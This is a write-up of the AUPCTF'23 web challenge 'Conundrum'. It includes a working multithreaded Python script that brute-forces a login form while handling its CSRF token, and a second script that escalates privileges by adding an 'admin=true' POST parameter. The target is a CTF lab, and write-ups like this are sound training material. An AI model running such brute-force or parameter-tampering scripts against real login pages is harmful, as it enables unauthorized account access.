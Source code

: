 ```yaml
---
title: AUPCTF'23 - Web - Conundrum
date: '2023-06-25'
tags: ['ctf', 'web', 'aupctf', 'writeup', 'brute-force', 'csrf']
draft: false
summary: A detailed writeup for the web challenge `Conundrum` from AUPCTF'23
---
```


## Solution

We're given the following URL to work with:

```js
https://challs.aupctf.live/conundrum/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](/static/writeups/aupctf/web/conundrum_login.png)

We can try to login with some random credentials, but we're greeted with the following error:

![Error Login Page](/static/writeups/aupctf/web/conundrum_err_login.png)

Using a `CTF` mindset, we try and visit some obvious pages, first, we visit robots.txt and get the following:

```js
User-agent: *
Disallow: /usernames/
Disallow: /passwords/
```

We visit the `/usernames/` directory and get the following:

![Usernames](/static/writeups/aupctf/web/conundrum_usernames.png)

Similarly, for passwords:

![Passwords](/static/writeups/aupctf/web/conundrum_passwords.png)

Now, to extract the username and passwords, I wrote the following python script:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum"

r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)

r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)

```

Now, we need to send the data to the login page, so, using Chrome dev tools, we firstly identify the `POST` request being sent to the server:

![DevTools](/static/writeups/aupctf/web/conundrum_request.png)

Now, here, we can see that, we have a `csrfmiddlewaretoken`. So, for that, we need to send a `GET` request to the login page, and extract the `csrfmiddlewaretoken` from the response, and then, with each request, we need to send the `csrfmiddlewaretoken` as well. Also, we will need the `csrftoken` cookie set as well and a `referer` header set to the login page. So, for that, I wrote the following final script.

```py
import requests
import re
import threading
import itertools

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()
csrftoken = None

def _post(username, password):
	r = sess.post(
		url,
		headers = {
			'Referer' : url
		},
		data = {
			'csrfmiddlewaretoken' : csrftoken,
			'username' : username,
			'password' : password,
		}
	)

	if 'invalid' not in r.text.lower():
		print(f"=> {username}:{password}")
		print(f"Response: {r.text}")

print("[+] Fetching the usernames", end='')
r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(usernames)}")

print("[+] Fetching the passwords", end='')
r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(passwords)}")


print("[*] Combining both lists: ")
creds = list(itertools.product(usernames, passwords))

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

print("[*] Bruteforcing...")
threads = []
for username, password in creds:
	t = threading.Thread(target=_post, args=(username, password))
	threads.append(t)
	t.start()

for t in threads:
	t.join()
```

Now, when running the script, we get the following output in matters of seconds:

```py
[+] Fetching the usernames : 20
[+] Fetching the passwords : 20
[*] Combining both lists:
[*] Extracting the CSRF Token : ZQBndXSbKeH0C3Wnl3pLlP3epgwasd1F
[*] Bruteforcing...
=> starlord69:1A8$5k7!eR
Response: <!DOCTYPE html>
<html>
<head>
    <title>Login Successful</title>

</head>
<style>
    body {
        background-color: #f2f2f2;
        font-family: Arial, sans-serif;
        margin: 0;
        padding: 0;
    }
    .h{
        text-align: center;
        font-size: 36px;
    }
    .message {
        text-align: center;
        margin-top: 50px;
        margin-left: 5em;
        margin-right: 5em;
        font-size: 24px;
        color: #333;
    }

    .logout {
        display: block;
        text-align: center;
        margin-top: 20px;
        color: #a00606;
        text-decoration: none;
        font-size: 24px;
    }

    .logout:hover {
        color: #540a0a;
    }
</style>

<body>
    <h3 class="h">Login successful!</h3>
    <p class="message">You've entered the 'Userland'! The flag, however, is chilling in the 'Admin Paradise'.</p>
    <a href="/phash/" class="logout">Logout</a>

    </form>
</body>
</html>
```

Now, with the following credentials, `starlord69:1A8$5k7!eR`, we are able to login successfully:

![Login Success](/static/writeups/aupctf/web/conundrum_login_success.png)

Now, the message is pretty vague. I tried several different stuff. Finally, with a hint from the admins and a fellow hacker, I tried the two things and one of them worked

1. Adding a seperate `admin: 1` header in the http request
2. Adding a `admin=true` parameter in the POST request data (SPOILER, it worked.)

![burp_test](/static/writeups/aupctf/web/conundrum_burp.png)
![Flag](/static/writeups/aupctf/web/conundrum_flag.png)

So, since I love to automate everything, the final script to extract the flag became:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()

username = 'starlord69'
password = '1A8$5k7!eR'

print(f"[*] Using creds: {username}:{password}")

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password,
		'admin' : 'true',
	}
)

flag = re.findall('class="flag">(.*?)</b>', r.text)[0]
print(f"[>] Flag: {flag}")
```

The final output and flag is:

```py
[*] Using creds: starlord69:1A8$5k7!eR
[*] Extracting the CSRF Token : 136nR4wCHKPlH5rj7O9VIyFRwSgn8X1j
[>] Flag: aupCTF{V1ct0ri0usChall3ng3r!}
```
